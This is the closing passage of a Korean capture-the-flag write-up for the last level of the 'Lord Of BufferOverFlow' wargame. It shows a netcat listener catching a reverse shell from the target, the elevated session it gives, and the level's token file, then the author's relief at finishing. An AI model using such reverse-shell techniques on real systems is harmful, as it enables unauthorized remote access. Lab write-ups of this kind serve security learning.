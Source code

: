 

대충 0xbffffdf0 부근에서 되는거 같다.

```shell
 ✘ ch4rli3kop@ch4rli3kop-pc > ~/tmp/revshell > nc -lvp 12345
Listening on [0.0.0.0] (family 0, port 12345)
Connection from 121.171.148.125 58682 received!
id
uid=0(root) gid=0(root) euid=520(death_knight) egid=520(death_knight)
my-pass
euid = 520
got the life

```



접속하면 끝.

```shell
[death_knight@localhost death_knight]$ cat dropped_item.txt 
	
 You're so great! This is a token to the next gate.

                   ,.
                 ,'  `.
               ,' _<>_ `.
             ,'.-'____`-.`.
           ,'_.-''    ``-._`.
         ,','      /\      `.`.
       ,' /.._  O /  \ O  _.,\ `.
     ,'/ /  \ ``-;.--.:-'' /  \ \`.
   ,' : :    \  /\`.,'/\  /    : : `.
  < <>| |   O >(< (  ) >)< O   | |<> >
   `. : :    /  \/,'`.\/  \    ; ; ,'
     `.\ \  /_..-:`--';-.._\  / /,'
       `. \`'   O \  / O   `'/ ,'
         `.`._     \/     _,','
           `..``-.____.-'',,'
             `.`-.____.-','
               `.  <>  ,'
                 `.  ,' 
                   `'
```



하... 미친 마지막 문제 왤케 오래걸린지 모르겠다... ㅠㅠ 내가 만든 쉘코드는 왜 안되는거지... ㅠㅠ 

암튼 드디어 끝냈다. ㅋㅋ 맘 먹으면 며칠만에 하는데 옛날에는 왤케 안했었는지..ㅋㅋㅋ

Lord Of BufferOverFlow 징짜 잘 맨드신거 같다! 재밌었다.



